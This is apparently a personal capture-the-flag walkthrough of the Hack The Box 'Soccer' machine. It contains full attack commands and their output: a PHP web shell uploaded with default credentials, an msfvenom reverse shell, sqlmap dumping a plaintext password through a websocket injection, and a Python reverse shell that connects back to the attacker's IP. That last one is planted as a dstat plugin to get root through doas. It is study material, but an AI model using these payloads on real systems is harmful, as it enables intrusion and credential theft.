




==
tags: #linux #websockets #sqli #sqlmap #gtfobins

==

* nmap
  #+begin_src bat
  sudo nmap -sV -sC -oA nmap/soccer.basic 10.129.14.224

PORT     STATE SERVICE         VERSION                     
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest:
|     HTTP/1.1 404 Not Found
| <SNIP>
  #+end_src
** full scan
   #+begin_src bat
   sudo nmap  -p- -A -T4 -oA nmap/soccer.full 10.129.14.224
   #+end_src
* fuzz
  #+begin_src bat
  ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://soccer.htb/FUZZ

tiny                    [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 34ms] 
  #+end_src
* the website
  the main website is a static page; however, there's a =Tiny File Manager= app on the =/tiny=
  endpoint; =/tiny= gets redirected to
  #+begin_src
  http://soccer.htb/tiny/tinyfilemanager.php
  #+end_src
  from viewing the page source, we're able to know the version and it's vulnerable to an RCE 
  for which there's an [[https://github.com/febinrev/tinyfilemanager-2.4.3-exploit][exploit]] available but it requires valid creds.
  #+begin_src html
  <a href="https://tinyfilemanager.github.io/" target="_blank" class="text-muted" data-version="2.4.3">
  #+end_src
* fuzz for other php pages
  #+begin_src bat
  gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php -o gobuster.out -u http://soccer.htb/tiny/
  #+end_src
  reveals an =/upload= directory which is forbidden; probably the path used for RCE
  using ffuf:
  #+begin_src bat 
  ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://soccer.htb/tiny/FUZZ.php
  #+end_src
* guess tinyfilemanager login
  the exploit script from earlier also has a default login commented out which actually worked
  #+begin_src 
  admin: admin123
  #+end_src
* RCE
  taking a look at the exploit, it's just uploading a php shell via the uploads directory. the
  main directory itself is not writable, so create a subdirectory and create a file via the UI
  with the shell 
  #+begin_src bash
  <?php system($_REQUEST['cmd']); ?>
  #+end_src
  get the path of the file via the direct link in the UI
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-04-07_11-14.png @ 2026-04-07 11:14:53
  

  and now we can issue a command:
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-04-07_11-15.png @ 2026-04-07 11:15:32
  
* users
  #+begin_src 
  root:x:0:0:root:/root:/bin/bash
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  player:x:1001:1001::/home/player:/bin/bash
  mysql:x:113:121:MySQL Server,,,:/nonexistent:/bin/false
  #+end_src
* msfvenom reverse shell payload
  #+begin_src 
  msfvenom -p php/reverse_php LHOST=10.10.16.71 LPORT=4444 -f raw > reverse.php
  #+end_src
** nc
   #+begin_src 
  rlwrap nc -lvnp 4444
   #+end_src
   we're able to get an ugly shell.
* linpeas
  #+begin_src bat
  Doas binary found at: /usr/local/bin/doas
  Doas binary has SUID bit set!
  -rwsr-xr-x 1 root root 42224 Nov 17  2022 /usr/local/bin/doas
  -e 
  Checking doas.conf files:
  Found: /usr/local/bin/../etc/doas.conf
  permit nopass player as root cmd /usr/bin/dstat
  Found: /usr/local/etc/doas.conf
  permit nopass player as root cmd /usr/bin/dstat
  -e 
  #+end_src
  ok, it looks like using =doas= is the escalation path once we get to the =player= user.
* credential hunting
  everything from the [[file:d:/code/htb/academy/modules/password-attacks/linux-credential-hunting.org::*config files][linux-credential-hunting section]] was followed through; a few of those:
** check for scripts
   #+begin_src bat
   for l in $(echo ".py .pyc .pl .go .jar .c .sh .php");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
   #+end_src
   returns nothing.
** logs
   #+begin_src bat
   for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
   #+end_src
** database files
   #+begin_src bat
   for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
   #+end_src
** config files
   #+begin_src bat
   for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
   #+end_src
* port 9091
  gemini analysed the nmap output and suggested there's likely a node application running;
  since GET errors out, let's try POST:
** POST call
   #+begin_src bat
   curl -X POST http://localhost:9091/
   #+end_src
   we get the same error
** package.json
   searching for =package.json=, =index.js= etc. reveals lots of them from installed libraries,
   but there are no applications listed.
* guided mode
** virtual hosts
   ok, we should have examined the nginx sites-available
   #+begin_src bat
   ls /etc/nginx/sites-available
default
soc-player.htb

   cat /etc/nginx/sites-available/soc-player.htb
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
   #+end_src
* soc-player.soccer.htb
  this is web app with a registration and login pages; creating an account and logging in:
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-04-11_10-36.png @ 2026-04-11 10:36:50
  

  submitting the form triggers a websocket call with responses indicating valid/invalid ticket
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-04-11_10-38.png @ 2026-04-11 10:38:53
  

* login behavior
  it seems to work on the basis of a valid cookie and it has a vary low TTL.
* fuzz for directories with cookie
  #+begin_src bat
  ffuf -u http://soc-player.soccer.htb/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt \
  -H "Cookie: connect.sid=s%3ArLA2yEGuMrvVAQ-HDwndlSOnCYUbw3LG.1%2BLhos8HijMfye%2BYqo7keed%2BSRdvjvSKItWjHd7DMQE" \
  -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"

img                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 104ms]
login                   [Status: 200, Size: 3307, Words: 778, Lines: 99, Duration: 75ms]
signup                  [Status: 200, Size: 3741, Words: 1015, Lines: 105, Duration: 94ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 63ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 62ms]
logout                  [Status: 302, Size: 23, Words: 4, Lines: 1, Duration: 41ms]
check                   [Status: 200, Size: 31, Words: 6, Lines: 1, Duration: 63ms]
match                   [Status: 200, Size: 10078, Words: 4012, Lines: 404, Duration: 67ms]
  #+end_src
* fuzz for sqli
  #+begin_src bat
  ffuf -u http://soc-player.soccer.htb/login \
  -X POST \
  -d "email=FUZZ&password=admin%40123" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Cookie: connect.sid=s%3ATO6nJXyuohJBTSUmzNFXJLRiKXwXClhX.BbMfaPZLe7z2IIv6SNp9%2BIvCW3DXQfY6%2FFj4aRYMCuE" \
  -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt
  #+end_src
  but of course, this is pointless since only the cookie matters.
* manual testing of sqli payloads
  tried the mysql payloads from [[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md][payloadallthethings]]; however, nothing worked.
* ffuf with a request file
  #+begin_src bat
  ffuf -request request.txt -request-proto http -u http://[TARGET_HOST]:[PORT]/FUZZ
  #+end_src
* lfi
  #+begin_src bash
  ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http:soc-player.soccer.htb/FUZZ'
  #+end_src
  returns nothing.
* observation about the cookie
  the websocket itself does not validate the cookie and it is only checked by the =/check=
  endpoint; however, it looks like the ticket in the UI remains valid only as long as the
  cookie is valid.
* websocket function in check
  #+begin_src js
    var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
    window.onload = function () {

	var btn = document.getElementById('btn');
	var input = document.getElementById('id');

	ws.onopen = function (e) {
	    console.log('connected to the server')
	}
	input.addEventListener('keypress', (e) => {
	    keyOne(e)
	});

	function keyOne(e) {
	    e.stopPropagation();
	    if (e.keyCode === 13) {
		e.preventDefault();
		sendText();
	    }
	}

	function sendText() {
	    var msg = input.value;
	    if (msg.length > 0) {
		ws.send(JSON.stringify({
		    "id": msg
		}))
	    }
	    else append("????????")
	}
    }

    ws.onmessage = function (e) {
	append(e.data)
    }

    function append(msg) {
	let p = document.querySelector("p");
	// let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
	// p.style.color = randomColor;
	p.textContent = msg
    }
  #+end_src
* guided mode
  hint suggests we can use sqlmap to target websockets directly;
  #+begin_src bat
  $ sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"*"}' --batch --level=5 --risk=3

  sqlmap identified the following injection point(s) with a total of 612 HTTP(s) requests:
---
Parameter: JSON #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"id":"-1025 OR 7368=7368"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: {"id":"(CASE WHEN (8559=8559) THEN SLEEP(5) ELSE 8559 END)"}
---
[15:16:06] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
  #+end_src
* enumerate db
  #+begin_src bat
  sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"*"}' --batch --level=5 --risk=3 --current-user --current-db --is-dba

[15:19:12] [INFO] fetching current user
[15:19:13] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[15:19:13] [INFO] retrieved: player@localhost
current user: 'player@localhost'
[15:19:58] [INFO] fetching current database
[15:19:58] [INFO] retrieved: soccer_db
current database: 'soccer_db'
[15:20:23] [INFO] testing if current user is DBA
[15:20:23] [INFO] fetching current user
current user is DBA: False
  #+end_src
** get dbs
   we didn't do this, but here's how to get all db names:
   #+begin_src 
   $ sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"*"}' --batch --level=5 --risk=3 --dbs --threads=10

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
   #+end_src
** find tables
   #+begin_src bat
   sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"*"}' --batch --level=5 --risk=3 --tables -D soccer_db --threads=10

Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
   #+end_src
** dump data
   #+begin_src bat
   sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"*"}' --batch --level=5 --risk=3 -D soccer_db -T accounts --dump --threads=10

Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
   #+end_src
* user flag
  use this password to ssh and find the user flag
  #+begin_src bat
  player@soccer:~$ cat user.txt

10a8fcd51e56e13f94c0bcb94b289f08
  #+end_src
* privesc
** dstat
   we already know we can run =dstat= as root using =doas=; from the =doas.conf= file:
   #+begin_src 
   permit nopass player as root cmd /usr/bin/dstat
   #+end_src
   now, using [[https://gtfobins.org/gtfobins/dstat/#inherit][gtfobins]], we know we can use it to execute arbitrary python files in specific
   directories.
   #+begin_src bat
   Paths that may contain external dstat_*.py plugins:

   ~/.dstat/
   (path of binary)/plugins/
   /usr/share/dstat/
   /usr/local/share/dstat/
   #+end_src
** reverse shell
   #+begin_src bash
   python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.71",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
   #+end_src
   making a directory in player's home gets autodeleted fast; however:
   #+begin_src bat
   $ ls -l /usr/local/share | grep dstat
drwxrwx--- 2 root player 4096 Dec 12  2022 dstat
   #+end_src
   so, write the reverse shell a script on our desktop
   #+begin_src python
   player@soccer:~$ cat dstat_rev.py

import socket
import os
import pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("[10.10.16.71]",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
   #+end_src
   copy to =/usr/local/share= and run it:
   #+begin_src 
player@soccer:~$ cp dstat_rev.py /usr/local/share/dstat/dstat_rev.py
player@soccer:~$ doas -u root dstat --rev

doas: Operation not permitted
   #+end_src
   this fails because we should use the full path of the =dstat= binary for =doas= to work
   #+begin_src 
player@soccer:~$ doas -u root /usr/bin/dstat --rev
dstat: option --rev not recognized, try dstat -h for a list of all the options

player@soccer:~$ cp dstat_rev.py /usr/local/share/dstat/dstat_rev.py 

player@soccer:~$ doas -u root /usr/bin/dstat --rev

/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp

#+end_src
* root flag
  #+begin_src bat
$ nc -lvnp 4444                                                                                 
listening on [any] 4444 ...
connect to [10.10.16.71] from (UNKNOWN) [10.129.17.79] 36362

root@soccer:~# cat root.txt

b04b70cfde0e3b167f88d9c6d2cff644
  #+end_src
* learnings
 - should have found the default creds more easily by just looking for them instead of
   attempting an exploit
 - trusted gemini when it said sqlmap could not directly test ws endpoints
* ippsec
** dirbuster
   #+begin_src 
   gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
   #+end_src
** upgrade shell
   #+begin_src bat
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   #+end_src
   ctrl-z and then
   #+begin_src 
   stty raw -echo;fg
   #+end_src
   enter, enter. and then:
   #+begin_src 
   export TERM=xterm
   #+end_src
** why we can't see the pid for port 9001 with ss
   #+begin_src 
   cat /etc/fstab
   #+end_src
   shows =hidepid=2=, meaning we can't see another user's processes.
** sqli manual check
   #+begin_src 
   <ticketnumber-1>' or 1=1-- -

   ticket does not exist
   #+end_src
   get rid of the single quote
   #+begin_src 
   <ticketnumber-1> or 1=1-- -

   ticket does exist
   #+end_src
   ok, so when it's =2=1=, it says =does not exist=; this tells us the technique is BOOLEAN
** wscat application to interact directly with the websocket
   #+begin_src bat
   wscat -c soc-player.soccer.htb:9091
   #+end_src
** find files owned by user player excluding ones in proc, sys and run
   #+begin_src bat
   find / -user player 2>/dev/null | grep -v '^/proc\|^/run\|^sys'
   #+end_src
*** find files owned by group player
   #+begin_src bat
   find / -group player 2>/dev/null | grep -v '^/proc\|^/run\|^sys'

/usr/local/share/dstat
   #+end_src
** dstat shell
   instead of a reverse shell, just do:
   #+begin_src python
   import os
   os.execv("/bin/sh", ["sh"])
   #+end_src
   and then run it like
   #+begin_src bat
   doas /usr/bin/dstat --plugin
   #+end_src
